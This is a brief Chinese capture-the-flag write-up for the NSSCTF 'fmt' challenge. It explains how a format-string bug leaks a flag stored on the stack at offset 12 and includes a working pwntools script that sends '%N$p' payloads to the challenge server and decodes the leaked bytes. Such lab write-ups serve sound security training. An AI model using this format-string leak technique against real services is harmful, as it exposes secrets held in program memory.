 [[HUBUCTF 2022 新生赛]fmt | NSSCTF](https://www.nssctf.cn/problem/2599)
![[Pasted image 20240901211414.png]]
挺有特点的一道题目，反编译后可以看出代码打开了flag.txt,然后再其不为空的时候将其存到s中，打本地可以自己创建一个flag.txt，具体到栈中看
![[Pasted image 20240901211621.png]]
可以看到flag被存入栈中，偏移为12
![[Pasted image 20240901211725.png]]
只要不断利用格式化字符串漏洞就可以泄露栈上的flag
exp:
```python
from pwn import *

# context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./fmt')
local = False
if local:
    p = process('./fmt')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote("node5.anna.nssctf.cn", 26287)
shell = 0xA56
flag = ''
j = 12
while True:
    payload = '%{}$p'.format(j)
    p.recvuntil(b'service')
    p.sendline(payload)
    p.recvuntil(b'0x')
    part = p.recvuntil(b'\n')[:-1]
    for i in range(0, len(part), 2):
        index = len(part) - i
        flag += chr(int(part[index - 2:index].ljust(2, b'0'), 16))
    print(flag)
    j += 1
    if '}' in flag:
        break
```
